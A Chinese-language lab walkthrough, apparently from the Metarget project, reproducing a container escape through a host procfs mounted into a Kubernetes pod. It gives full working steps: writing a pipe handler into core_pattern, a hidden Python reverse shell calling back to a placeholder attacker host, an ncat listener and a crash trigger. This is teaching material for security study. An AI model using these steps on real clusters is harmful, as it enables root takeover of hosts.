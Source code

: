 # 挂载宿主机Procfs系统导致容器逃逸

内容部分摘录自[《容器逃逸技术概览》](https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan)。

## 场景介绍

对于熟悉Linux和云计算的朋友来说，procfs绝对不是一个陌生的概念，不熟悉的朋友可以参考网络上相关文章或直接在Linux命令行下执行`man proc`查看文档。

procfs是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的procfs挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用root权限，且没有开启User Namespace时（截止到本文成稿时，Docker默认情况下不会为容器开启User Namespace）。

一般来说，我们不会将宿主机的procfs挂载到容器中。然而，有些业务为了实现某些特殊需要，还是会将该文件系统挂载进来。

procfs中的`/proc/sys/kernel/core_pattern`负责配置进程崩溃时内存转储数据的导出方式。从手册[1]中我们能获得关于内存转储的详细信息，关键信息如下：

> 从2.6.19内核版本开始，Linux支持在`/proc/sys/kernel/core_pattern`中使用新语法。如果该文件中的首个字符是管道符`|`，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

我们可以利用上述机制，在挂载了宿主机procfs的容器内实现逃逸。

## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备：

```bash
./metarget cnv install mount-host-procfs
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`mount-host-procfs`的pod。

宿主机的procfs在容器内部的挂载路径是`/host-proc`。

## 漏洞复现

执行以下命令进入容器：

```
kubectl exec -it -n metarget mount-host-procfs /bin/bash
```

在容器中，首先拿到当前容器在宿主机上的绝对路径：

```
root@mount-host-procfs:/# cat /proc/mounts | grep docker
overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/SDXPXVSYNB3RPWJYHAD5RIIIMO:/var/lib/docker/overlay2/l/QJFV62VKQFBRS5T5ZW4SEMZQC6:/var/lib/docker/overlay2/l/SSCMLZUT23WUSPXAOVLGLRRP7W:/var/lib/docker/overlay2/l/IBTHKEVQBPDIYMRIVBSVOE2A6Y:/var/lib/docker/overlay2/l/YYE5TPGYGPOWDNU7KP3JEWWSQM,upperdir=/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/diff,workdir=/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/work 0 0```

从`workdir`可以得到基础路径，结合背景知识可知当前容器在宿主机上的`merged`目录绝对路径如下：

```
/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/merged
```

向容器内`/host-proc/sys/kernel/core_pattern`内写入以下内容：

```bash
echo -e "|/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/merged/tmp/.x.py \rcore           " > /host-proc/sys/kernel/core_pattern
```

然后在容器内创建一个反弹shell的`/tmp/.x.py`：

```bash
cat >/tmp/.x.py << EOF
#!/usr/bin/python
import os
import pty
import socket
lhost = "attacker-ip"
lport = 10000
def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    os.putenv("HISTFILE", '/dev/null')
    pty.spawn("/bin/bash")
    os.remove('/tmp/.x.py')
    s.close()
if __name__ == "__main__":
    main()
EOF

chmod +x /tmp/.x.py
```

最后，在容器内运行一个可以崩溃的程序即可，例如：

```c
#include <stdio.h>
int main(void)
{
    int *a = NULL;
    *a = 1;
    return 0;
}
```

容器内若没有编译器，可以先在其他机器上编译好后放入容器中。

完成后，在其他机器上开启shell监听：

```bash
ncat -lvnp 10000
```

接着在容器内执行上述编译好的崩溃程序，即可获得反弹shell。

## 参考文献

1. http://man7.org/linux/man-pages/man5/core.5.html